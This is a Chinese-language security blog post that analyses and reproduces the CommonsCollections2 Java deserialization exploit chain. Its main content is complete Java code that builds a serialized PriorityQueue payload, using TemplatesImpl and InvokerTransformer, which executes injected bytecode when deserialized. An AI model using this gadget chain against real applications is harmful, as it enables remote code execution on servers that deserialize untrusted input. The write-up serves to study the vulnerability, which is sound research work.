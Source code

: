 ```yaml
---
title: CommonsCollections2
date: 2021-12-22 18:38:12
categories:
- Java
tags:
- Deserialization exploit chain
toc: true
notshow: true
---
```


# 流程图

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1640519227899-221207d5-e591-466d-8654-ec506e97ebe2.jpeg)



# 分析与复现

## 0x00 概述

CC2 与 CC4 最大的区别，就是 CC2 中没有用到 Transformer 数组，而是直接由 compare 调用了 invokeTransformer 执行任意命令。为什么要有这样的差异呢？

一个原因在于参数传递需求的不同：

- CC4 使用 chainedTransformer 进行参数传递，用 ConstantTransformer 将要传递的参数固定住。
- CC2 使用 PriorityQueue，可以将参数以队列元素的形式传递进去，因此不需要 chainedTransformer。

另一个重要的原因在于数组的使用，某些场景下，含有数组的 payload 可能会出现无法正常反序列化的情况（具体可见 shiro550 反序列化漏洞）。

CC4 这一条链忘记了的可以再去阅读：https://dummykitty.github.io/2021/12/22/CommonsCollections4/

### 利用版本

CommonsCollections 4.0

### 限制

JDK版本：暂无限制

## 0x01 触发点

触发点为 ClassLoader.loadClass。

所以在编写 exp 时，这部分的代码不用变，直接粘贴过来即可。

```java
        Path path = Paths.get("C:\\tmp\\Calc2.class");
        byte[] bytes = Files.readAllBytes(path);
        byte[][] bytes1 = {bytes};
        TemplatesImpl templates = new TemplatesImpl();
        Field bytecodesField = TemplatesImpl.class.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        bytecodesField.set(templates,bytes1);

        Field nameField = TemplatesImpl.class.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates,"aaa");

        Field classField = TemplatesImpl.class.getDeclaredField("_class");
        classField.setAccessible(true);
        classField.set(templates,null);

        Field tfactoryField = TemplatesImpl.class.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templates,new TransformerFactoryImpl());
```

## 0x02 调用链

调用链示意图如下：



![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1640519242956-a2979446-748b-4e96-beaf-1de90c1b55e7.png)

我们可以先试一下 invokeTransformer 调用 TemplatesImpl.newTransformer

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.Paths;

public class CC2 {
    public static void main(String[] args) throws Exception{
        TestTransformingComparator();
//        unserialize("abc.ser.bin");
    }

    public static void TestTransformingComparator() throws Exception{
        Path path = Paths.get("C:\\tmp\\Calc2.class");
        byte[] bytes = Files.readAllBytes(path);
        byte[][] bytes1 = {bytes};
        TemplatesImpl templates = new TemplatesImpl();
        Field bytecodesField = TemplatesImpl.class.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        bytecodesField.set(templates,bytes1);

        Field nameField = TemplatesImpl.class.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates,"aaa");

        Field classField = TemplatesImpl.class.getDeclaredField("_class");
        classField.setAccessible(true);
        classField.set(templates,null);

        Field tfactoryField = TemplatesImpl.class.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templates,new TransformerFactoryImpl());

        InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer", null, null);
        invokerTransformer.transform(templates);
    }
}
```

可以成功弹出计算器。

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1640159942076-00022b0a-8853-4224-be6f-efccce68c6a5.png)

将 chainedTransformer 和后续的 PriorityQueue 加上：

最终 exp：

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.Paths;
import java.util.PriorityQueue;

public class CC2 {
    public static void main(String[] args) throws Exception{
//        TestTransformingComparator();
        unserialize("abc.ser.bin");
    }

    public static void TestTransformingComparator() throws Exception{
        Path path = Paths.get("C:\\tmp\\Calc2.class");
        byte[] bytes = Files.readAllBytes(path);
        byte[][] bytes1 = {bytes};
        TemplatesImpl templates = new TemplatesImpl();
        Field bytecodesField = TemplatesImpl.class.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        bytecodesField.set(templates,bytes1);

        Field nameField = TemplatesImpl.class.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates,"aaa");

        Field classField = TemplatesImpl.class.getDeclaredField("_class");
        classField.setAccessible(true);
        classField.set(templates,null);

        Field tfactoryField = TemplatesImpl.class.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templates,new TransformerFactoryImpl());

        InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer", null, null);
        
        TransformingComparator transformingComparator = new TransformingComparator(invokerTransformer, null);
        PriorityQueue priorityQueue = new PriorityQueue();

        Field comparatorField = PriorityQueue.class.getDeclaredField("comparator");
        comparatorField.setAccessible(true);
        comparatorField.set(priorityQueue,null);
        priorityQueue.add("1");
        priorityQueue.add("2");

        setFieldValue(priorityQueue,"queue",new Object[]{templates,templates});

        comparatorField.set(priorityQueue,transformingComparator);
        serialize(priorityQueue);

    }

    public static void serialize(Object o) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("abc.ser.bin"));
        oos.writeObject(o);
    }

    public static void unserialize(String filePath) throws Exception{
        ObjectInputStream ins = new ObjectInputStream(new FileInputStream(filePath));
        ins.readObject();
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```

# 参考资料

- [Java反序列化CommonsCollections篇(四)-摆烂的完结篇](https://www.bilibili.com/video/BV1NQ4y1q7EU?spm_id_from=333.999.0.0)
- [ysoserial](https://github.com/frohoff/ysoserial)

- [Commons-Collections 1-7 利用链分析](http://wjlshare.com/archives/1535)